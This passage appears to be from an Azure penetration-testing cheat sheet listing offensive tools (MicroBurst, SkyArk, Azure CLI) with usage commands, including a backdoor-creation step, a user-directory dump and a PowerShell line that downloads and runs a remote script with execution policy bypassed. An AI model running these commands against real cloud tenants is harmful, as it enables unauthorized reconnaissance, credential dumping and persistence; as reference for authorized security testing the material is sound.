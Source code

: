     # Owner
    $ Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest
    
    # Administrator
    $ Create-Backdoor, Execute-Backdoor
    ```

* **Azure CLI** - Default azure CLI
    ```powershell
    $ AZ_REPO=$(lsb_release -cs) echo "deb [arch=amd64] https://packages.microsoft.com/repos/azure-cli/ $AZ_REPO main" | sudo tee /etc/apt/sources.list.d/azure-cli.list
    $ curl -L https://packages.microsoft.com/keys/microsoft.asc | sudo apt-key add -
    $ sudo apt-get install apt-transport-https
    $ sudo apt-get update && sudo apt-get install azure-cli
    # dump users
    $ az ad user list --output=table --query='[].{Created:createdDateTime,UPN:userPrincipalName,Name:displayName,Title:jobTitle,Department:department,Email:mail,UserId:mailNickname,Phone:telephoneNumber,Mobile:mobile,Enabled:accountEnabled}'
    ```

* **MicroBurst** - MicroBurst includes functions and scripts that support Azure Services discovery, weak configuration auditing, and post exploitation actions such as credential dumping
    ```powershell
    $ git clone https://github.com/NetSPI/MicroBurst
    PS C:> Import-Module .\MicroBurst.psm1
    PS C:> Import-Module .\Get-AzureDomainInfo.ps1
    PS C:> Get-AzureDomainInfo -folder MicroBurst -Verbose
    ```

* **SkyArk** - Discover the most privileged users in the scanned Azure environment - including the Azure Shadow Admins.   
    Require:
    - Read-Only permissions over Azure Directory (Tenant)
    - Read-Only permissions over Subscription
    - Require AZ and AzureAD module or administrator right

    ```powershell
    $ git clone https://github.com/cyberark/SkyArk
    $ powershell -ExecutionPolicy Bypass -NoProfile
    PS C> Import-Module .\SkyArk.ps1 -force
    PS C> Start-AzureStealth

    or in the Cloud Console

    PS C> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cyberark/SkyArk/master/AzureStealth/AzureStealth.ps1')  
    PS C> Scan-AzureAdmins  
    ```

* **Azurite Explorer** and **Azurite Visualizer** : Enumeration and reconnaissance activities in the Microsoft Azure Cloud.
